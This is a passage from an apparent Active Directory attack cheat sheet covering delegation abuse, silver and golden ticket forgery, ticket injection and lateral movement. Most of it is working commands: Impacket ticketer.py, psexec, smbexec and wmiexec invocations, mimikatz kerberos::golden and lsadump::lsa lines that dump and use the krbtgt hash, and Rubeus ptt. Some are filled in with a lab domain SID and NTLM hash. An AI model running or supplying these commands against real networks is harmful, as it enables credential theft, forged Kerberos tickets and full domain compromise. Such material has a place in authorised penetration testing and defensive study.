        -    If you find any Computer object with the attribute [ADS\_UF\_TRUSTED\_FOR\_DELEGATION] and you have domain privileges in the computer, you will be able to dump TGTs from memory of every users that logins onto the computer. So, if a Domain Admin logins onto the computer, you will be able to dump his TGT and impersonate him using Pass the Ticket

        -   The purpose of constrained delegation is to limit access of a delegation machine/account to specific services while impersonating users, unlike unconstrained delegation that allows delegation to all services.

-   **Domain Persistence**

    -   **Silver ticket**

        -   **Lmpacket**

            -   **To generate the TGS with NTLM**

            -   python ticketer.py -nthash \<ntlm\_hash\> -domain-sid \<domain\_sid\> -domain \<domain\_name\> -spn \<service\_spn\> \<user\_name\>

            -   **To generate the TGS with AES key**

            -   python ticketer.py -aesKey \<aes\_key\> -domain-sid \<domain\_sid\> -domain \<domain\_name\> -spn \<service\_spn\> \<user\_name\>

            -   **Set the ticket for impacket useexport KRB5CCNAME=\<TGS\_ccache\_file\>**

            -   **Execute remote commands with any of the following by using the TGT**

            -   python psexec.py \<domain\_name\>/\<user\_name\>@\<remote\_hostname\> -k -no-pass

            -   python smbexec.py \<domain\_name\>/\<user\_name\>@\<remote\_hostname\> -k -no-pass

            -   python wmiexec.py \<domain\_name\>/\<user\_name\>@\<remote\_hostname\> -k -no-pass

        -   **Make a silver ticket with mimikatz**

            -   kerberos::golden /user:administrator /domain:jnkfo.lab /sid:S-1-5-21-3178339118-3033626349-2532976716 /target:win10.jnkfo.lab /rc4:1ad9c160bd7ab9cb4b7c890c96862305 /service:cifs

            -   kerberos::golden /domain:\<domain\_name\>/sid:\<domain\_sid\> /aes{128/256}:\<krbtgt\_aes\_key\> /user:\<user\_name\> /service:\<service\_name\> /target:\<service\_machine\_hostname\>

                -   user: Username, can be any user, even invalid one will work.

                -   domain: The domain name

                -   sid: Domain sid, can be obtained via many methods, whoami /user is one.

                -   target: Target machine

                -   rc4: NTLM hash of the target service

                -   aes{128/256} : Aes key of the target service

                -   Service: The service name, cifs as am accessing filesharing service

        -   **Inject the ticket**

            -   mimikatz \# kerberos::ptt \<ticket\_kirbi\_file\>

            -   .\\Rubeus.exe ptt /ticket:\<ticket\_kirbi\_file\>

    -   **Golden ticket**

        -   **Extarcting Kerberos NTLM hash**

            -   mimikatz \# lsadump::lsa /inject /name:krbtgt

        -   **Lmpacket**

            -   **To generate the TGS with NTLM**

            -   python ticketer.py -nthash \<ntlm\_hash\> -domain-sid \<domain\_sid\> -domain \<domain\_name\> \<user\_name\>

            -   **To generate the TGS with AES key**

            -   python ticketer.py -aesKey \<aes\_key\> -domain-sid \<domain\_sid\> -domain \<domain\_name\> \<user\_name\>

            -   **Set the ticket for impacket useexport KRB5CCNAME=\<TGS\_ccache\_file\>**

            -   **Execute remote commands with any of the following by using the TGT**

            -   python psexec.py \<domain\_name\>/\<user\_name\>@\<remote\_hostname\> -k -no-pass

            -   python smbexec.py \<domain\_name\>/\<user\_name\>@\<remote\_hostname\> -k -no-pass

            -   python wmiexec.py \<domain\_name\>/\<user\_name\>@\<remote\_hostname\> -k -no-pass

        -   **Make a golden ticket with mimikatz**

            -   kerberos::golden /domain:jnkfo.lab /sid:S-1-5-21-3178339118-3033626349-2532976716 /rc4:{krbtgt\_hash} /user:invalidusername /ticket:golden.kirbi /ptt

            -   kerberos::golden /domain:jnkfo.lab /sid:S-1-5-21-3178339118-3033626349-2532976716 /aes{128/256}:{krbtgt\_aes\_key } /user:invalidusername /ticket:golden.kirbi /ptt

                -   No new options here just removed the /service option used in the silver ticket.

        -   **Inject the ticket**

            -   mimikatz \# kerberos::ptt \<ticket\_kirbi\_file\>

            -   .\\Rubeus.exe ptt /ticket:\<ticket\_kirbi\_file\>

    -   **Skeleton key**

-   **Lateral movements**

    -   **Pass the hash**

        -    use a NT hash from a compromised user account for use to directly authenticate to remote services as that user

    -   **overPass the hash (pass the key)**

        -   The \"over\" in overpass-the-hash refers to taking the pass-the-hash technique one step further to acquire a valid Kerberos ticket.

        -   This attack aims to use user NTLM hash to request Kerberos tickets Therefore, this could be especially useful in networks where NTLM protocol is disabled and only Kerberos is allowed as authentication protocol.

        -   you can leverage that NT hash twice to request a full Kerberos TGT or service ticket from the KDC on behalf of that compromised user. This technique also opens up the **pass-the-ticket** attack

    -   **Pass the ticket**

        -   We can dump 2 types of tickets TGT or TGS tickets. If you dump TGT (depends on level of access) we can then request access to any service within the context of this user or if we dump a TGS ticket then we can PTT to the respective service.

        -   extract a Kerberos Ticket Granting Ticket (TGT) from LSASS memory on a system and then use this on another system to request Kerberos service tickets (TGS) to gain access to network resources

    -   **Password spraying**

        -   Password spraying refers to the attack method that takes a large number of usernames and try and loops them with a single password that you found . note that The builtin Administrator account (RID:500) cannot be locked out of the system no matter how many failed logon attempts it accumulates
